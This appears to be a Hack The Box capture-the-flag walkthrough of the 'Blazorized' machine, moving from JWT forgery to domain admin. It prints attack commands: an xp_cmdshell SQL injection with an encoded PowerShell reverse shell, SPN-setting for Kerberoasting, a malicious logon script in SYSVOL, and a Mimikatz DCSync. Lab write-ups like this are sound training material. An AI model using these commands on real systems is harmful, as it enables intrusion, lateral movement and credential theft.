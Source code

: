 🧠 HTB: Blazorized (Hard) — Full Exploitation Walkthrough

Summary of Objectives Achieved:

    Extracted JWT secret from Blazorized.Helpers.dll

    Forged admin access to admin.blazorized.htb

    Gained RCE via SQLi → Reverse Shell as nu_1055

    Used BloodHound to enumerate AD misconfigs → SPN Write access on rsa_4810

    Kerberoasting → Cracked hash → Shell as rsa_4810

    Abused ACLs to gain shell as ssa_6010 via GPO

    Used Mimikatz DCSync → Extracted NTLM hash → pwned Administrator

🔍 Recon

Initial nmap scan showed port 80 (HTTP) as the only interesting surface.

Visited the site and noted a “Check for Updates” feature. Intercepted traffic using Burp Suite and noticed a JWT token in an Authorization header.
📦 DLL Looting & Token Forgery

Found a suspicious .dll file: Blazorized.Helpers.dll via browser DevTools. Downloaded it and decompiled it using Avalonia ILSpy.

Inside the JWT handler class, found the JWT signing key — granting ability to forge any valid token.

Also identified a hidden subdomain: admin.blazorized.htb.

🔐 Modified token:

    Added role: "Super_Admin"

    Extended exp time

    Verified signature with jwt.io

Stored the forged JWT in browser's local storage → Gained Admin Panel access!
💥 Remote Code Execution via SQL Injection

Explored the admin panel and fuzzed the "Check Duplicate Post Titles" functionality — found MSSQL Injection leading to RCE via xp_cmdshell.

Used Nishang’s Invoke-PowerShellOneLine.ps1 reverse shell — base64-encoded the payload and injected:

test';EXEC xp_cmdshell 'powershell -enc <BASE64>';--

Got a reverse shell as nu_1055.
🩸 BloodHound Enumeration

Uploaded SharpHound.exe and ran:

.\SharpHound.exe -c all

Exfiltrated the results via HTTP PUT → Imported into BloodHound.

Found nu_1055 had SPN write rights on rsa_4810.
🧰 Kerberoasting & Lateral Movement

Downloaded PowerView.ps1 and used it to set a fake SPN:

Set-DomainObject -identity rsa_4810 -SET @{serviceprincipalname='test/blazor'}

Then launched Invoke-Kerberoast — got a valid TGS hash.

Cracked it with Hashcat → Gained plaintext password for rsa_4810.

Used evil-winrm to login as rsa_4810.
🧬 ACL Abuse for Priv Esc

Used Find-InterestingDomainAcl in PowerView to find abuse paths:

Find-InterestingDomainAcl -ResolveGUIDS | ?{$_.IdentityReferenceName -match "rsa_4810"}

Bingo: rsa_4810 could write scriptPath for ssa_6010.

Identified writable path in \\sysvol\<domain>\scripts\A32FF3AEAA23.

Crafted a rev-shell.bat that cradles payload via PowerShell:

echo 'powershell -enc <BASE64_PAYLOAD>' > rev.bat
gc rev.bat | set-content rev-shell.bat -encoding ascii
Set-ADUser -Identity ssa_6010 -ScriptPath 'A32FF3AEAA23\rev-shell.bat'

Caught a reverse shell as ssa_6010.
🧠 Full Compromise via Mimikatz DCSync

Uploaded Mimikatz, ran:

lsadump::dcsync /domain:<fqdn> /user:administrator

Dumped NTLM hash of the Administrator.

Used smbexec.py (Impacket) with the hash — Gained SYSTEM shell.

🏁 Rooted!
🔚 Conclusion

This machine required solid knowledge of JWT manipulation, .NET reverse engineering, Active Directory privilege escalation via SPN and ACL abuse, and Kerberos attacks. A classic blend of web-to-domain compromise with real-world techniques.

